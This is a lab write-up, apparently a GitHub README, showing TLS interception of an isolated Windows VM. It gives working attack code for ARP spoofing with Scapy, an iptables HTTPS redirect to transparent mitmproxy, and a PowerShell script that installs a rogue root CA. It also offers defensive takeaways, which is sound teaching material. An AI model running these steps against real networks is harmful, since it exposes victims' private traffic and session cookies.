




# HTTPS Interception Lab — TLS MITM with a Rogue Root CA

A hands-on lab demonstrating how HTTPS traffic can be intercepted and read in
plaintext when an attacker controls both the network path **and** the victim's
certificate trust store. Built to understand the full man-in-the-middle chain
end to end — and, more importantly, what defends against it.

> ⚠️ **Authorized lab use only.** Every host here is a VM I own, on an isolated
> segment. Running any of this against traffic or devices you don't own is
> illegal. This repo is for education and defensive understanding.

---

## The core idea

TLS doesn't fail here. It works exactly as designed. The attack succeeds because
the victim is made to **trust the attacker's Certificate Authority** — after
that, mitmproxy can present valid-looking certificates for any site and the
browser shows no warning.

**Control of the trust store is the entire attack.** That's the lesson.

---

## Topology

```
   ┌──────────────┐        ARP spoof         ┌──────────────┐
   │   Windows    │◄────── (poisoned) ──────►│   Gateway    │
   │   Victim     │                          │  172.20.10.1 │
   │ 172.20.10.9  │                          └──────────────┘
   └──────┬───────┘
          │  all traffic routed through attacker
          ▼
   ┌────────────────────────────────────────────┐
   │              Kali (Attacker)                │
   │              172.20.10.8                    │
   │                                             │
   │  • Scapy ARP spoofer  (get in the middle)   │
   │  • IP forwarding      (pass traffic on)     │
   │  • iptables 443 → 8080 (redirect HTTPS)     │
   │  • mitmproxy --transparent (decrypt TLS)    │
   └────────────────────────────────────────────┘
```

---

## Attack chain

**1. Get in the middle — ARP spoofing (Scapy)**
Poison the victim and the gateway so the victim believes the Kali box is the
gateway, routing its traffic through the attacker.

```python
# arp_spoof.py
from scapy.all import ARP, send, getmacbyip

target_ip  = "172.20.10.9"   # Windows victim
gateway_ip = "172.20.10.1"   # gateway

def spoof(target, source):
    target_mac = getmacbyip(target)
    packet = ARP(op=2, pdst=target, hwdst=target_mac, psrc=source)
    send(packet, verbose=False)
```



**2. Pass traffic through — IP forwarding + redirect HTTPS to mitmproxy**

```bash
# Let the Kali box forward victim traffic
sudo sysctl -w net.ipv4.ip_forward=1

# Send incoming HTTPS (443) to mitmproxy's transparent port
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```



**3. Terminate TLS — mitmproxy in transparent mode**

```bash
mitmproxy -p 8080 --mode transparent
```


At this point the victim still sees certificate errors, because mitmproxy's CA
is not trusted yet. Without step 4, TLS is doing its job.

**4. Break the trust — install the rogue root CA on the victim**
Serve the CA cert + install script from Kali, then import it into the Windows
`LocalMachine\Root` store.

```bash
# On Kali: serve the cert and script
python3 -m http.server 8000
```

```powershell
# On the victim (install_cert.ps1)
$KaliIP = "172.20.10.8"
$CertUrl = "http://${KaliIP}:8000/mitmproxy-ca-cert.cer"
$LocalCertPath = "$env:TEMP\mitmproxy-ca-cert.cer"

Invoke-WebRequest -Uri $CertUrl -OutFile $LocalCertPath
Import-Certificate -FilePath $LocalCertPath -CertStoreLocation "Cert:\LocalMachine\Root"
```



**Result:** a Google search typed on the victim appears in full plaintext in
mitmproxy — query, headers, cookies — with no certificate warning.



---

## Why it works (and where it breaks)

| Factor | Effect |
|---|---|
| Rogue CA in trust store | Removes cert warnings — the enabling condition |
| HSTS | Does **not** stop this once the CA is trusted (no error to click through) |
| Certificate pinning | **Breaks** the attack — pinned apps reject the rogue cert |
| Certificate Transparency | Rogue certs aren't logged, but aren't checked against CT here either |

---

## Defensive takeaways

- Protect what can write to the certificate trust store — it's the single point of failure.
- Endpoint hardening + monitoring for unexpected root CA installs catches step 4.
- Certificate pinning defeats this class of attack for critical apps.
- On untrusted networks, a VPN moves the trust boundary off the local segment.

---

## Tools

Kali Linux · Scapy · mitmproxy · iptables · PowerShell · Windows VM
